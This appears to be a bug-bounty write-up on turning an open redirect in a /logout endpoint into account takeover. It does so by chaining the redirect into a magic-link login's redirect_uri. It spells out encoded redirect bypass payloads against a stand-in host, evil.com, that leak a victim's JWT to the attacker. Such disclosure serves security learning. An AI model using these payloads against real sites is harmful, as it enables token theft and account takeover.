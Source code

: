 # Account Takeover Through Open Redirect

## How:

The program had an endpoint that was open to redirection vulnerability. By compining this vulnerability with an authentication functionality I was able to takeover the user
account.

## Open Redirection Vulnerability:

- The application had an endpoint like this <span style="color:red"> ***/logout*** </span> that takes a <span style="color:red">***GET***</span> parameter called <span style="color:red">***r***</span>.
- The parameter ***r*** takes an endpoint to be redirected at like this <span style="color:red">***/logout?r=/dashboard***</span>.
- So I tried to to put a valid host to see what it does like this <span style="color:red">***logout?r=https://program.com/***</span>.
- The application redirected me so, I new that I can play with it to see what else I can get.
- I tried to set the host name to another domain like <span style="color:red">***r=https://evil.com/***</span> and the application responded with <span style="color:red">***invalid redirect uri***</span>.
- Knowing this I thought of listing some payloads to try out:<br>
  <span style="color:red">***r=https://evil.com/program.com***</span><br>
  <span style="color:red">***r=https://program.com.evil.com***</span><br>
  <span style="color:red">***r=https://program.com@evil.com***</span><br>
  <span style="color:red">***r=https://evil.com@program.com***</span><br>
  
- The last one was the road to success from this list. However, it's still no redirection because the application will always redirect to itself.
- So at first why we tried these payloads?
  - When I try to find an open redirection I try first to know what url format is allowed or understandable by browsers. So, the meaning of <span style="color:red">***https://john@program.com***</span> is that you are trying to access <span style="color:red">***program.com***</span> as username <span style="color:red">***john***</span>. You can try this on firefox or chrome. 
  - So, by knowing this I was thinking what if the developer is using a regex that validates this format and when someone tries to change the value of <span style="color:red">***r***</span> to <span style="color:red">***https://evil.com@program.com***</spna> he validetes it as a valid value because he know that it's the samething. The user will be redirected to program.com at the end too.
  - Another question comes to my head. What is the set of characters allowed before <span style="color:red">***@***</span> I tried to test it on the browser to see what is allowed. And, I have found that the browser when I but an ecnoded value like this <span style="color:red">***john%2f***</span> as username it validtes it and sees it as a valid value. You can try it <span style="color:red">***john%2f@google.com***</span>.
  - I tried to set <span style="color:red">***r***</span> to <span style="color:red">***https://evil.com%252f@program.com/***</span> and sent the request. The response successfully redirected me to <span style="color:red">***https://evil.com/@program.com/***</span>
  - So, let's break the payload.
    - The application validates this <span style="color:red">***john@program.com***</span> as a valid format.
    - So I tried to inject <span style="color:red">***/***</span> in the payload but doubled encoded like this <span style="color:red">***https://evil.com%252f@program.com/***</span>.
    - It's double encoded because If I encoded one time it will reach the web server decoded one time.
    - The payload reaches the code at the other end like this <span style="color:red">***https://evil.com%2f@program.com/***</span>.
    - Then the response return the redirection like this <span style="color:red">***https://evil.com/@program.com***</span>.
    - As you can see the browser will treat <span style="color:red">***/@program.com***</span> as a path to <span style="color:red">***https://evil.com***</span> and the redirection successfully happenes to <span style="color:red">**evil.com**</span>.
- Another important thing is that the <span style="color:red">***/logout***</span> endpoint sends any get parameter with the new redirection like this <span style="color:red">**/logout?r=https://evil.com%252f@program.com&heap=heap**</span> the redirection will be like this <span style="color:red">**https://evil.com/@program.com/?r=https://evil.com%252f@program.com&heap=heap**</span>.


## Exploiting The Login Functionality.

- The applicaiton has a functionality to send you a magic link to login with it. This endpoint takes an <span style="color:red">***email***</span> and <span style="color:red">***redirect_uri***</span> parameters. So, after trying to find a vulnerability with the email I tried to find what I can do with the <span style="color:red">***redirect_uri***</span>.
- The <span style="color:red">***redirect_uri***</span> takes a url and the applicaion appends a <span style="color:red">**JWT**</span> token to it as a GET parameter and sends it to the user.
- So, I tried to play with the hostname of this url to try and find an open redirection but with no clue.
- But, what if can edit the path of the url like this <span style="color:red">**https://program.com/anypath/anypath**</span> I tried it and sent the request and I looked at my mail I found that the magic link is like this <span style="color:red">**https://program.com/anypath/anypath?jwt=SOME_VALUE**</span>.
- Okay great, can I compine the this with the open redirection I have found before?. I set the <span style="color:red">**redirect_uri**</span> to <span style="color:red">**https://program.com/logout?r=https://evil.com%2525%2532%2566@program.com**</span>.
- And the magic link sent was like this <span style="color:red">**https://program.com/logout?r=https://evil.com%252f@program.com&jwt=SOME_VALUE**</span>.
- Clicking the link I was redirected to <span style="color:red">**https://evil.com/?https://evil.com%252f@program.com&jwt=SOME_VALUE**</span>.
- By this, I was able to get the jwt as an attacker and using the jwt I was able to login.
- So the same scenario is done if you want to target another user. You need an email after collecting the jwt you can use it to login to the user's account.


### My Info :

#### Yeswehack  : https://yeswehack.com/user/mekky

#### Intigriti  : https://app.intigriti.com/researcher/profile/mekky

#### Linkedin   : https://www.linkedin.com/in/muhammed-mekkawy-1504821b2/

#### Twitter    : https://twitter.com/Mekky49295157

